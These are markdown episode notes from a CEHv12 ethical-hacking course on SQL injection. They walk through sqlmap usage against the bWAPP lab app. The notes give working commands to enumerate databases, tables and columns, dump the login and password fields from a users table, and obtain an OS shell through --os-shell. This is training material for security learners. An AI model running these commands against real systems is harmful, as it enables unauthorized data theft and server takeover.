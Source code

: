 - Filename: eccouncil-ceh31250-v12-15-5-1-sqlmap.md
- Show Name: CEHv12 (312-50)
- Topic Name: Web Application Hacking: SQL Injection
- Episode Name: SQLMap
================================================================================


SQLMap
--------------------------------------------------------------------------------

Objectives:
--------------------------------------------------------------------------------

--------------------------------------------------------------------------------


+ Doing this manually is great, but are there tools available to help us automate
  this process?
  - Yes. Do a google search for sqli tools
    + SQLMap is our go-to

+ OK so we've got SQLMap, but how do we release it upon our target?
  - INJECTION TESTING
    + Gathering commonly needed elements
      - Cookies
      - POST data (if data not in URL)
    + `sqlmap --url="http://bee-box/bWAPP/slqi_1.php?title=iron" --dbs`
      - `--dbs` info is found using the `-hh` option of sqlmap
      - Add `--cookie="security_level=0;PHPSESSID=xxxxxx"`
        + the bwapp app requires it
      - If POST then add `--data="title=iron&action=search"`
        + Input data and parameters are usually found in the request BODY

+ So we have a good injection point and even enumerated the name of the database,
  but how do we get at the data?
  - Enumerate the Table names
    + `sqlmap --url="http://bee-box/bWAPP/sqli_1.php?title=iron" -D bWAPP --tables`
  - Enumerate Columns
    + `sqlmap --url="http://bee-box/bWAPP/sqli_1.php?title=iron" -D bWAPP -T users
      --columns`
  - Dump database data from table 'users' from columns 'login' and 'password'
    + `sqlmap --url="http://bee-box/bWAPP/sqli_1.php?title=iron" -D bWAPP -T users
      -C login,password --dump`

+ Any other useful tricks?
  - How about COMMAND EXECUTION?
    + `sqlmap --url="http://bee-box/bWAPP/sqli_1.php?title=iron" -D bWAPP --os-shell`
      - PHP shell, since this is a PHP app
      - Custom web root (**/var/www/bWAPP/documents/**)
      
